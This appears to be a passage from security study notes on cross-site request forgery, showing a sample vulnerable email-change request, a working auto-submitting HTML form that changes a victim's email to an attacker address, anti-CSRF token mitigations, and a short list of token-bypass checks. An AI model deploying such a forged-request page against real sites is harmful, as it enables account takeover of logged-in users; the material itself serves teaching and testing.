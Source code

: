 - Eg. **Vulnerable Request :**

  ```
  POST /email/change HTTP/1.1
  Host: vulnerable-website.com
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 30
  Cookie: session=yvthwsztyeQkAPzeQ5gHgTvlyxHfsAfE
  
  email=wiener@normal-user.com 
  ```

  **Constructed Attack :** 

  ```
  <html>
    <body>
      <form action="https://vulnerable-website.com/email/change" method="POST">
        <input type="hidden" name="email" value="pwned@evil-user.net" />
      </form>
      <script>
        document.forms[0].submit();
      </script>
    </body>
  </html> 
  ```

  - When the user(victim) visits this webpage *(through Social Engineering or other Vectors)*, and are already logged into their account, their email id gets changed to the value set by the attacker.



## Mitigations

- Adding an additional parameter with a value that is unknown to the  attacker and can be validated by the server, you can prevent CSRF attacks

  

  **1. Anti-CSRF Tokens (Sync Token Pattern) :** 
  
  - Random string that is only known by the user’s browser and the web application
  - Usually stored in a Session Variable
  - Typically on a page in a hidden form field, sent with every state changing request 
- If the value of the session variable and the hidden form field match,  the web application accepts the request. If they do not match the  request is dropped
  - Since in this case, the attacker does not know the exact value of the hidden form field that is needed for the request to be accepted, he cannot launch a CSRF attack

  

  - **Bypasses :**
  
    - **Check 1:-** Try to re-use one user Anti-CSRF Token on another user account
    - **Check 2:-** Try to use the already used token
  - **Check 3:-** Try to check whether token is getting validated or not
    - **Check 4:-** Try to check that the token validation is based on partial length check or full length check
